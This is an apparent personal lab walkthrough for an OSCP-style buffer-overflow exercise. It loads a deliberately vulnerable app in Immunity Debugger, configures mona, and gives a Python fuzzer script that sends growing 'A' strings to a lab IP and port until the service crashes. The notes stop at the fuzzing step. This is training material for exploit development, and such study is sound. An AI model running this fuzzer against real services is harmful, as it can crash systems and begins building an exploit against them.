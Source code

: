 after setting up our vpn and connecting with xfree rdp now we can start 
First we run immunity debugger as administrator and open our vulnerable app called oscp  inside

```
 C:\Users\admin\Desktop\vulnerable-apps\oscp
```

![[Pasted image 20221221160127.png]]
and run it 
![[Pasted image 20221221160144.png]]

Configure mona to make a directory to save data in 

```
!mona config -set workingfolder c:\mona\%p
```

![[Pasted image 20221221160710.png]]
get back to debugger
![[Pasted image 20221221160810.png]]

Now we get our fuzzing using the following script:
```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.44.100" # target IP

port = 1337 # target port 
timeout = 5
prefix = "OVERFLOW1 " # option command 

string = prefix + "A" * 100 # payload

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
What this script does is it will send increasingly long strings comprised of As If the fuzzer crashes the server with One of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that Were sent.
```bash
python3 fuzzer.py
```
![[Pasted image 20221221163243.png]]
